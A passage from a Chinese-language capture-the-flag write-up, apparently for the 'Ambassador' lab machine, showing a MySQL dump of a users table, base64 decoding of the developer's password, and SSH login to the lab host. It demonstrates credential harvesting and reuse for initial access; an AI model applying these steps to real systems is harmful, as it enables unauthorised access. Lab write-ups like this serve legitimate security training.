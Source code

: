 #### DB：whackywidget

本来以为这个DB没用的（因为名字有点意味不明），竟然发现了有趣的东西:
```bash
MySQL [mysql]> use whackywidget 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.088 sec)

MySQL [whackywidget]> select * from users
    -> ;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.087 sec)
```

developer用户，看了眼 `/etc/passwd` 里面是有的，估计下一步应该是SSH连接了。  

- 密码base64解密：anEnglishManInNewYork027468


## Initial Access

```bash
$ ssh developer@10.10.11.183                   
developer@10.10.11.183's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 25 Dec 2022 07:11:23 AM UTC

  System load:           0.0
  Usage of /:            80.9% of 5.07GB
  Memory usage:          39%
  Swap usage:            0%
  Processes:             229
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.183
  IPv6 address for eth0: dead:beef::250:56ff:feb9:cd51


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Fri Sep  2 02:33:30 2022 from 10.10.0.1
developer@ambassador:~$ ls
snap  user.txt
```
